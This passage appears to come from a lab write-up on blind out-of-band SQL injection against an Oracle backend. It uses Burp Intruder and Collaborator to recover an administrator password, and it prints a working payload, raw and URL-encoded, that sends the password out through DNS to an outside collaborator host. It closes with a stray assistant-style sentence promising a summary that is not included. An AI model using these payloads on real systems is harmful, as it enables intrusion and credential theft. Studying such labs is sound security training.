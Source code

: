 ![image](https://github.com/user-attachments/assets/8239c8e0-09d1-4d43-880e-2df162ed44b9)





**Automation:**
Sent to Burp Suite Intruder.
Configured two payload positions:
Character: Test a-z, 0-9 for each position of the password.
Subdomain: Unique collaborator subdomain for each request.


Set attack type to Battering Ram to synchronize payloads.

![image](https://github.com/user-attachments/assets/d2bbc4e9-782c-4f5f-949a-225014eb2c64)


**Result:** Found an interaction for the letter 'e' as the first character.

![image](https://github.com/user-attachments/assets/ac057fae-9005-49dd-b72c-90f5ca2cd9d4)

**Process**: Repeated for each position (1 to 20, based on prior knowledge of password length) to enumerate the password **e6jomps7kptnx04vcvtz**.
Conclusion: The password is e6jomps7kptnx04vcvtz.

#### Step 3: Direct Password Extraction (Alternative)

Description: Concatenates the administrator password into the collaborator URL, causing the server to receive an HTTP request with the password in the subdomain **(e.g., e6jomps7kptnx04vcvtz.0mntiwqdq98x96mi2d97hujkwb22quej.oastify.com).**

Extract the full administrator password in a single query by embedding it in the collaborator URL.

**Payload (Cheat-Sheet)**
```
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

```

**Encoded Payload:**
```
mnsyvP6Ci68a0edP'+union+select+EXTRACTVALUE(xmltype('<%3fxml+version="1.0"+encoding="UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http://'||(SELECT+password+FROM+users+where+username='administrator')||'.0mntiwqdq98x96mi2d97hujkwb22quej.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
```
**Result:** The collaborator server received a request with the subdomain containing `e6jomps7kptnx04vcvtz`, confirming the password.

![image](https://github.com/user-attachments/assets/a9bfb4a6-3297-48d5-a094-f5984ee99b92)



**Conclusion**: The password e6jomps7kptnx04vcvtz was extracted directly.

Below is a well-formatted Markdown (`.md`) file summarizing the final results of the out-of-band SQL injection testing, as provided in your input. The content is concise, focusing solely on the final results, and is formatted for clarity and readability.
